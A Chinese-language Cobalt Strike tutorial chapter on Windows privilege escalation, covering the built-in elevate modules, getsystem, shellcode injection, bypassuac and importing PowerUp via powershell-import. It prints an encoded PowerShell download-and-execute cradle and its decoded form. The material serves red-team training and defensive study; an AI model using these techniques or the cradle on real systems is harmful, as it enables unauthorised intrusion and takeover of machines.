 # 0x00 Elevate

在Cobalt Strike中内置了3种提权模式

1. ms14-058是一个（过时的）权限升级漏洞利用程序，可用于未打补丁的Windows 7系统提权。

2. UAC DLL是一种绕过UAC的攻击，它试图将本地管理员运行的有效负载从低权限提升到高权限。此攻击使用UAC漏洞将ArtifactKit生成的DLL复制到特权位置。此攻击适用于Windows7和Windows8及更高版本的未修补版本。

3. uac-token-duplication是另一种绕过UAC的攻击，将其从低权限提升到高权限（作为本地管理员）。这种攻击使用一个UAC漏洞，允许非提升进程使用从提升进程中窃取的令牌启动任意进程。此漏洞要求攻击删除分配给提升令牌的多个权限。此攻击适用于Windows7及更高版本。如果AlwaysNotify处于其最高设置，则此攻击要求提升的进程已在当前桌面会话中运行（作为同一用户）,此漏洞使用PowerShell生成会话。

当然这三种远远不满足我们的需求的,后面讲到脚本的导入利用。

>使用 右键目标> Access > Elevate 选择提权方法

![Cobalt Strike ](./img/12.1.png)


可以看到我们的权限直接提升到system了。

Cobalt Strike更msf命令有着相识的地方 也有`getsystem`命令 可以用来提权

```
beacon> help getsystem
Use: getsystem

Attempts to get SYSTEM


[+] host called home, sent: 37 bytes
[+] received output:
nt authority\system

```

获得system权限我们运行一个system beacon 有太多种方法了，我这里就顺便配合 `inject`  命令 

```
beacon> help inject
Use: inject [pid] <x86|x64> [listener]

Open the process and inject shellcode for the listener

```
当然也可以使用图形化的来操作

> 目标 >explore > process list

![Cobalt Strike ](./img/12.4.png)


`inject`、`spawnas`、`spawn` 都可以用来进行协议切换。

# 0x01 bypass uac

用户帐户控制（User Account Control，简写作UAC)是微软公司在其Windows Vista及更高版本操作系统中采用的一种控制机制。其原理是通知用户是否对应用程序使用硬盘驱动器和系统文件授权，以达到帮助阻止恶意程序（有时也称为“恶意软件”）损坏系统的效果。


前面内置提权有三种模式其中就有uac的 命令行还有一种引用bypass uac的方法

```
beacon> help bypassuac
Use: bypassuac [listener]

Spawn a session in a high integrity process. Use this command to elevate from a
process run by an administrator, but without administrator rights to a high 
integrity process with the user's full rights. This command drops a DLL to disk,
uses a trust loophole to copy the DLL to a system folder, and executes a program
that auto-elevates to high integrity to load the DLL.

```

![Cobalt Strike ](./img/12.2.png)

图中可以看到我的用户开始是 Medium Mandatory Level 权限 并且 Aleen 后面没有 `*`(表示最高权限) bypass uac后成功获得最高权限。


# 0x02 powershell

使用这个我们需要了解2个命令


```
beacon> help powershell-import
Use: powershell-import [/path/to/local/script.ps1]

Import a powershell script which is combined with future
calls to the powershell command. You may only use one
imported script at a time.
```


```
beacon> help powershell
Use: powershell [commandlet] [arguments]

Execute the command using powershell. Any cmdlets from the
last use of powershell-import are available here too.
```

powershell-import其实就是个 powershell -nop -exec bypass -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgAzADcAMwA2ADgALwAnACkAOwAgAEkAbgB2AG8AawBlAC0AQQBsAGwAQwBoAGUAYwBrAHMA   

其中编码内容 IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:37368/'); Invoke-AllChecks 


使用 powershell-import 本地导入我们的脚本，powershell执行,官网视频导入的`PowerUp.ps1`  这个模块是个提权辅助模块具体大家可以自行搜索。


![Cobalt Strike ](./img/12.3.png)



# 0x03 文末



### 本文如有错误，请及时提醒，以免误导他人
